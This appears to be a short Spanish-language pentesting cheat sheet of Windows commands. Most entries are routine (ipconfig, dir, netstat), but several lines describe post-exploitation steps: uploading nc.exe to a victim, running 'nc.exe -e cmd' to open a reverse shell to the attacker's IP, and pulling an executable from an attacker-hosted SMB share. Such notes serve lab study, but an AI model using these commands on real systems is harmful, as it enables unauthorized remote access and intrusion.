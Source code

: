 # Comandos Windows ❮❯

Tags: #Windows #Comandos

```bash
C:\Windows\Temp                            # Directorios con capacidad de escritura en Windows
```

❯ **ipconfig** Nos muestra las interfaces y las direcciones IP

❯ **cls** Nos ayuda a limpiar la pantalla
❯ **dir** Nos muestra el contenido del directorio
	❯ **dir /r /s ❮File.txt❯ Buscamos de forma recursiva el string .txt
❯ **type ❮File❯** Nos muestra el contenido del archivo
❯ **cd ❮Path❯ Nos cambia de directorio (**C:\\Users\\**)
❯ **ipconfig** Nos reportara las interfaces y sus IP's
❯ **upload ❮Path/nc.exe❯** Para subir el archivo Netcat desde la maquina victima

❯ **nc.exe -e cmd ❮IP Atacante❯ ❮Port❯** Para ejecutar el netcat y nos haga una ReverShell a nuestra IP y puerto especifico
❯ **netstat -nat** Miramos los puertos abiertos
❯ **services** Para ver los servicios que estan corriendo en Windows 
❯ **mkdir ❮Name❯** Nos creamos un directorio con un nombre especifico
❯ **copy \❮Nuestra IP❯\\❮Folder_name❯\\❮File.exe❯ ❮File.exe❯** Nos copiamos un archivo .exe desde un recurso compartido SMB que se encuentra en nuestra maquina de atacante
